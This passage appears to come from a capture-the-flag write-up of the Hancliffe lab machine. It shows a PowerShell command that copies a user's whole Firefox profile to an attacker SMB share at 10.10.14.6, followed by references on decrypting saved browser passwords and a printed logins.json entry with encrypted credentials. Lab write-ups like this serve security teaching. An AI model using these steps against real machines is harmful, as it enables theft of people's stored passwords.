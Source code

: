 Now I can access `\\10.10.14.6\s` from Hancliffe.

I’ll copy the entire profile back to my computer:

```

PS C:\Users\clara\appdata\roaming\mozilla\firefox\profiles> copy -recurse ljftf853.default-release \\10.10.14.6\s\

```

### Decrypt Passwords

#### Manual Exploring

[This post](https://apr4h.github.io/2019-12-20-Harvesting-Browser-Credentials/) does a really nice job walking through how Firefox (and Chrome) passwords can be decrypted. [This Diagram](https://raw.githubusercontent.com/lclevy/firepwd/master/mozilla_pbe.pdf) is also really useful:

[![](https://0xdfimages.gitlab.io/img/mozilla_pbe-1.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/mozilla_pbe-1.png)

Firefox stores saved passwords in a file named `logon.json`. Looking at the file from clara, there’s one entry, for localhost port 8000 (the H@$hPa$$ instance):

```

{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "http://localhost:8000",
      "httpRealm": null,
      "formSubmitURL": "http://localhost:8000",
      "usernameField": "website",
      "passwordField": "masterpassword",
      "encryptedUsername": "MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECP+7GREfh/OCBBACN8BqXSHhgvedk/ffsRBn",
      "encryptedPassword": "MFIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECEQe5quezh5lBCg7VV7cXOky4tBMinRRncbXJl1YC3P0Ql5J8ZZS6ZnVjg9yXrbOq1Me",
      "guid": "{39d1884b-56cd-4e30-869b-e0d9df6ca9d9}",
      "encType": 1,
      "timeCreated": 1624771259387,
      "timeLastUsed": 1624771259387,
      "timePasswordChanged": 1624771259387,
      "timesUsed": 1
    }
  ],
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}

```
